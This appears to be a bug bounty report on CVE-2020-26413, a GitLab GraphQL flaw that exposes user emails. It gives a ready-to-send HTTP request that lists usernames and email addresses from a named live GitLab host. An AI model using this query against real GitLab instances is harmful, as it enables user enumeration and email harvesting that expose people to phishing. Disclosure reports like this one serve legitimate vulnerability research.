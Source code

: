 ## Title
Gitlab User enumeration and user email disclosure via Graphql API

## Summary
An issue has been discovered in GitLab CE/EE affecting all versions starting from 13.4 before 13.6.2. Information disclosure via GraphQL results in user email being unexpectedly visible.

## Steps To Reproduce
1. Request
```
GET /api/graphql HTTP/1.1
Host: git.viriciti.com
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/json
Content-Length: 214

{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```
2.See email data

## Below is a screenshot
{F1628232}

## References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26413
https://gitlab.com/gitlab-org/cves/-/blob/master/2020/CVE-2020-26413.json

## Impact
GitLab user email Information disclosure